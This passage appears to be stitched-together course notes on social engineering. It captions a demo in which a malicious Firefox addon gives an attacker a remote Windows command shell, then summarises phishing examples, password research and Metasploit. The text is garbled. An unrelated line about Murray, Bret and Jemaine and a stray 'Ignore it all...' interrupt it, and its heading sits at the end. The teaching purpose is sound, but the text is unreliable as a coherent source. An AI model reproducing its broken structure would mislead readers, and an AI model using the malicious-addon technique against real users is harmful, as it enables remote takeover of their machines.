
On the left we see Firefox on the victim computer navigating to the malicious URL, and putting up a prompt for the addon. After allowing the installation of the addon, the victim computer returns to normal, but on the attacker machine, we now have a CMD command shell, to inspect and manipulate the remote victim’s Windows machine.
Murray helps Bret and Jemaine with finances.
Ignore it all...
Examples - of common social-engineering approaches, hopefully reminding you all that, the next time you read your email, you should be attentive and cautious.
Password Mechanisms - It is surprising how little research is done directly on some of the simple things. In this vein, we saw Anderson’s research into password choice. We will leave it until later in the course to look into (for example) cryptographic techniques to assist in more secure authentication/login.
Some tools - We briefly looked at how closer examination of our emails can help you protect yourself, and we looked at Metasploit, a platform containing many (1000s) of common tricks used to do social engineering.
Social Engineering